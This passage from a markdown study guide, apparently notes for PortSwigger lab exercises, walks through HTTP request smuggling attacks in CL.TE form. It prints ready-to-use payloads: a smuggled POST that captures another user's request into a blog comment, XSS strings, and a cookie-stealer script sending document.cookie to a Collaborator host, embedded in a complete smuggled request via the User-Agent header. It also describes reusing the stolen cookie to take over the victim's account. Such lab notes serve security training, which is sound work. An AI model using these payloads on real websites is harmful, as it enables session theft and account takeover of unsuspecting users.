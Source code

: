 ```html
csrf=ValidCSRFCookieValue&postId=8&name=c&email=c%40c.c&website=&comment=c
```  
  
![Exploiting HTTP request smuggling with content-length value](images/content-length-capture-victim-request.png)  

>No new line at end of the smuggled POST request above^^.  

>View the blog **post** to see if there's a comment containing a user's request. Note that once the victim user browses the target website, then only will the attack be successful. Copy the user's Cookie header from the blog post comment, and use the cookie to access victim's account.  
  
![Exploiting HTTP request smuggling to capture other users' requests](images/victim-request-captured-blog-comment.png)  

[PortSwigger Lab: Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)  
  
### CL.TE multiCase - User-Agent Cookie Stealer  
  
>***Identify*** the UserAgent value is stored in the GET request loading the blog comment form, and stored in **User-Agent** hidden value. Exploiting HTTP request smuggling to deliver reflected XSS using **User-Agent** value that is then placed in a smuggled request.  

>Basic Cross Site Scripting Payload escaping out of HTML document.  

```JavaScript
 "/><script>alert(1)</script>
```

>COOKIE STEALER Payload.  

```JavaScript
a"/><script>document.location='http://Collaborator.com/?cookiestealer='+document.cookie;</script>
```  

>Smuggle this XSS request to the back-end server, so that it exploits the next visitor. Place the XSS cookie stealer in **User-Agent** header.  

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Length: 237
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```  

![HTTP request smuggling to deliver reflected XSS and steal victim cookie](images/user-agent-cookie-stealer-smuggled.PNG)  
